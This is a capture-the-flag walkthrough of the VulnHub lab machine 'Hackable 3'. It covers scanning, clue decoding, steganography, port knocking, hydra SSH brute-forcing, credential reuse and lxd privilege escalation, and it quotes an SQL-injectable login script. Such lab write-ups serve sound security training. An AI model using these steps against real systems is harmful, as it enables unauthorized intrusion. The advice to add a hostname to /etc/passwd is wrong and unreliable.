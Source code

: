 # [Hackable 3](https://www.vulnhub.com/entry/hackable-iii,720/)

First as always, `nmap`

```
# Nmap 7.92 scan initiated Wed Sep  8 16:46:51 2021 as: nmap -vvv -p 80 -sCV -oA init 192.168.1.17
Nmap scan report for 192.168.1.17
Host is up, received syn-ack (0.00026s latency).
Scanned at 2021-09-08 16:46:58 +07 for 6s

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.46 ((Ubuntu))
|_http-server-header: Apache/2.4.46 (Ubuntu)
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
| http-robots.txt: 1 disallowed entry
|_/config
|_http-title: Kryptos - LAN Home

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  8 16:47:04 2021 -- 1 IP address (1 host up) scanned in 12.92 seconds
```

We only have a web server on port 80. Looking at `robots.txt`

```
User-Agente: *
Disallow: /config
```

We see `/config`. Inside that folder is `1.txt` with the following content.

```
MTAwMDA=
```

Looks like a base64-encoded string, so we decode it to get "10000". Looking back at the landing page, we have a comment in the source code.

> Please, jubiscleudo, don't forget to activate the port knocking when exiting your section, and tell the boss not to forget to approve the .jpg file - dev_suport@hackable3.com

We have a hostname, "hackable3.com", which we add to our `/etc/passwd`, as well as a couple of potential usernames, "jubiscleudo" and "dev_suport". Additionally, there seems to be port knocking on the machine. We'll need more than 1 port for port knocking so let's note this down and move on.

Looking back at the source code, we have page `login_page/login.html` to which we navigate. Trying to log in, we're brought to the page `/login.php` with the following contents.

```php
<?php
include('config.php');

$usuario = $_POST['user'];
$senha = $_POST['pass'];

$query = " SELECT * FROM usuarios WHERE user = '{$usuario}' and pass = '{$senha}'";

$result = mysqli_query($conexao, $query);

$row = mysqli_num_rows($result);


#validaÃ§Ã£o conta
if($row == 1) {
	$_SESSION['usuario'] = $usuario;
	header('Location: 3.jpg');
	exit();
} else {
	$_SESSION['nao_autenticado'] = true;
	header('Location: login_page/login.html');
	exit();
}


?>
```

The code gives us a file `3.jpg` so we download the file at `/3.jpg`. Trying a few steganograpy tools, we find that we can extract data using `steghide` with a blank password.

```sh
$ steghide extract -sf 3.jpg
Enter passphrase:
wrote extracted data to "steganopayload148505.txt".

$ cat steganopayload148505.txt
porta:65535
```

We've had `1.txt` and `3.jpg` so we can guest there's a `2.something` file somewhere.

Running `gobuster` on the site gives us the following.

```
/css                  (Status: 200) [Size: 1117]
/js                   (Status: 200) [Size: 932]
/config               (Status: 200) [Size: 929]
/backup               (Status: 200) [Size: 943]
/imagens              (Status: 200) [Size: 2363]
/login_page           (Status: 200) [Size: 1521]
/server-status        (Status: 403) [Size: 277]
```

Inside `/css` is the file `2.txt` with the following contents.

```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>------------------....
```

This looks like brain fuck, an esoteric programming language, which we can run in [tio.run](https://tio.run/#brainfuck) to get the number `4444`. Looking at `/backup`, we have the file `wordlist.txt` which looks like a password list. We'll probably need this later so let's download it.

Since we have 3 numbered files, let's retry port knocking with the 3 ports and rerun `nmap`. I'm using [this script](https://github.com/grongor/knock).

```sh
$ ./knock 192.168.1.17 10000 4444 65535
```

With this, we should find port 22. Using the previously found usernames, "jubiscleudo" and "dev_suport" and "wordlist.txt", we can brute-force credentials to SSH with `hydra`.

```sh
$ hydra -L users -P wordlist.txt 192.168.1.17 ssh
```

With this, we should have credentials to log into SSH.

Looking at `/var/www/html`, we have a couple of config files: "config.php" and ".backup_config.php", each with a set of MySQL credentials. The credentials in `.backup_config.php` can be used to `su` to the user "hackable_3".

```sh
hackable_3@ubuntu20:~$ id
uid=1000(hackable_3) gid=1000(hackable_3) groups=1000(hackable_3),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

We see that we're in the `lxd` group. We can exploit this to mount `/` on a container and read everything on the machine. You can follow [this hacktricks article](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation) on it. After mounting, we can just read the root flag or add our SSH key to root and get root access to the box.
